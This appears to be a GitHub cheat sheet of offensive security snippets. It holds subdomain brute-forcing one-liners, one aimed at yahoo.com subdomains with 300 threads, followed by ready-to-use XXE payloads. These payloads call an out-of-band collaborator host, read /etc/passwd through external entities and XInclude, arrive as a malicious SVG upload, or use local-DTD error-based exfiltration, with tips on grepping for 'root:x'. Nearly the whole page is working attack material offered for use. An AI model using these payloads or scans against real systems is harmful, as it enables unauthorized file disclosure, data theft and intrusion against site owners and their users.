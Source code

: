 # Some Importent script for automation
writen by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Brutforce sobdomain via ffuf
```
subs="/home/aruu/Desktop/ath3na/sub.txt" ; act="https://FUZZ.yahoo.com" ; ffuf -w $subs -v -t 300 -timeout 15  -u "$act" -o lol | grep "URL" | tee -a result.txt ; rm lol

```
### Remove scheme from  list of urls
```
for url in $(cat lis_of_urls.txt);do
 echo "$url"|awk -F[/:] '{print $4}'
done

```
### collect all subdomains ip from target website
```
assetfinder --subs-only "testfire.net" |dig| grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'

```
### subdomain brutforce via host command
```
for sub in $(cat brutforce_payload.txt) 
do
if host $sub.target.com &>/dev/null 
then
echo "$sub.target.com"
fi
done

```
### Entities are not allowed
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collabrator"> %xxe; ]> //dont call xxe

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

### Peram Based
#### Just replace any peramiter with it and egrep "root:x|daemon:x"
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### file upload
#### save this as  svg file and upload it. now check your uploaded picture with root:x content.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### brutforceing dtd
#### bruteforce "bruteforce-here" with your dtd list and grep  root:x | daemon:x
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file://bruteforce-here">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
